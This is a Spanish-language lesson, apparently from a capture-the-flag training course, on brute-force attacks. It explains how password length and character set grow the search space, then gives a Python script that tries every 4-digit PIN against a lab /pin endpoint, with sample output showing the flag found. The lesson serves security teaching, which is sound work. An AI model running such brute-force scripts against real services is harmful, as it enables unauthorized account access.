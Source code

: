 # Ataques de fuerza bruta

Para comprender realmente el desafío del forzamiento bruto, es esencial comprender las matemáticas subyacentes. La siguiente fórmula determina el número total de combinaciones posibles para una contraseña:

Código:Mathml

```mathml
Possible Combinations = Character Set Size^Password Length
```

Por ejemplo, una contraseña de 6 caracteres que usa solo letras minúsculas (tamaño de conjunto de caracteres de 26) tiene 26^6 (aproximadamente 300 millones) de combinaciones posibles. En contraste, una contraseña de 8 caracteres con el mismo conjunto de caracteres tiene 26^8 (aproximadamente 200 mil millones) de combinaciones. Agregar letras mayúsculas, números y símbolos al conjunto de caracteres expande aún más el espacio de búsqueda exponencialmente.

Este crecimiento exponencial en el número de combinaciones destaca la importancia de la longitud de la contraseña y la complejidad. Incluso un pequeño aumento en la longitud o la inclusión de tipos de personajes adicionales puede aumentar drásticamente el tiempo y los recursos necesarios para un ataque exitoso de fuerza bruta.

Consideremos algunos escenarios para ilustrar el impacto de la longitud de la contraseña y los caracteres establecidos en el espacio de búsqueda:

||Longitud de la contraseña|Conjunto de personajes|Posibles combinaciones|
|---|---|---|---|
|`Short and Simple`|6|Letras minúsculas (AZ)|26^6 = 308,915,776|
|`Longer but Still Simple`|8|Letras minúsculas (AZ)|26^8 = 208,827,064,576|
|`Adding Complexity`|8|Letras minúsculas y mayúsculas (AZ, AZ)|52^8 = 53,459,728,531,456|
|`Maximum Complexity`|12|Letras, números y símbolos minúsculas y mayúsculas|94^12 = 475,920,493,781,698,549,504|

Como puede ver, incluso un ligero aumento en la longitud de la contraseña o la inclusión de tipos de caracteres adicionales expande drásticamente el espacio de búsqueda. Esto aumenta significativamente el número de posibles combinaciones que un atacante debe probar, lo que hace que el forzamiento bruto sea cada vez más desafiante y lento. Sin embargo, el tiempo que lleva descifrar una contraseña no solo depende del tamaño del espacio de búsqueda, también depende de la potencia computacional disponible del atacante.

Cuanto más poderoso sea el hardware del atacante (por ejemplo, el número de GPU, CPU o recursos informáticos basados ​​en la nube que pueden utilizar), más suponen la contraseña pueden hacer por segundo. Si bien una contraseña compleja puede llevar años a la fuerza bruta con una sola máquina, un atacante sofisticado que usa una red distribuida de recursos informáticos de alto rendimiento podría reducir drásticamente ese tiempo.

![Bar chart comparing password cracking times for basic and super computers across different password complexities.](https://academy.hackthebox.com/storage/modules/57/powern.png)

El cuadro anterior ilustra una relación exponencial entre la complejidad de la contraseña y el tiempo de agrietamiento. A medida que aumenta la longitud de la contraseña y el conjunto de caracteres se expande, el número total de combinaciones posibles crece exponencialmente. Esto aumenta significativamente el tiempo requerido para descifrar la contraseña, incluso con potentes recursos informáticos.

Comparando la computadora básica y la supercomputadora:

- Computadora básica (1 millón de contraseñas/segundo): adecuado para descifrar las contraseñas simples rápidamente, pero se vuelve poco lento para las contraseñas complejas. Por ejemplo, descifrar una contraseña de 8 caracteres usando letras y dígitos tomaría aproximadamente 6.92 años.
- SuperComputer (1 billón de contraseñas/segundo): reduce drásticamente los tiempos de agrietamiento para contraseñas más simples. Sin embargo, incluso con esta inmensa potencia, las contraseñas altamente complejas pueden tomar una cantidad de tiempo poco práctica. Por ejemplo, una contraseña de 12 caracteres con todos los caracteres ASCII aún tardaría unos 15000 años en romper.

## Rompiendo el alfiler

**Para seguir, inicie el sistema de destino a través de la sección de preguntas en la parte inferior de la página.**

La aplicación de instancia genera un pin de 4 dígitos aleatorio y expone un punto final (`/pin`) que acepta un PIN como un parámetro de consulta. Si el PIN proporcionado coincide con el generado, la aplicación responde con un mensaje de éxito y un indicador. De lo contrario, devuelve un mensaje de error.

Usaremos este script de Python de demostración simple para la fuerza bruta del`/pin`punto final en la API. Copie y pegue este script de Python a continuación como`pin-solver.py`en tu máquina. Solo necesita modificar las variables IP y puerto para que coincidan con la información de su sistema de destino.

Código:pitón

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

El script de Python itera sistemáticamente todos los pines posibles de 4 dígitos (0000 a 9999) y envía solicitudes para obtener solicitudes al punto final del matraz con cada pin. Verifica el código de estado de respuesta y el contenido para identificar el PIN correcto y capturar el indicador asociado.

  Ataques de fuerza bruta

```shell-session
xnoxos@htb[/htb]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```

La salida del script mostrará la progresión del ataque de fuerza bruta, mostrando cada pin intentado y su resultado correspondiente. La salida final revelará el PIN correcto y la bandera capturada, lo que demuestra la finalización exitosa del ataque de fuerza bruta.